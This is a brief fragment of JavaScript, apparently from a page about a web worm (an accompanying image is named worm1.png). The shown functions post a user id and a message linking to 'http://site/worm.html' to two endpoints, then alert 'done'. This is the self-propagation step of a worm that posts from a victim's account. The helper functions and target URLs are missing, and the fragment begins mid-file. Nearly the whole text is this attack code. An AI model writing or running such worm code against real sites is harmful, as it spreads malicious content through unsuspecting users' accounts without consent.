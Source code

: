 ```javascript
}



function send(){

    data = 'uid=3605736194';

    data2 = 'content=http://site/worm.html';

    post(url,data,false);

    post(url2,data2,false);

}



function main(){

    try{

    send();

    alert("done");

    }

    catch(e){alert("error");}

}

main();
```
![](img/worm1.png)
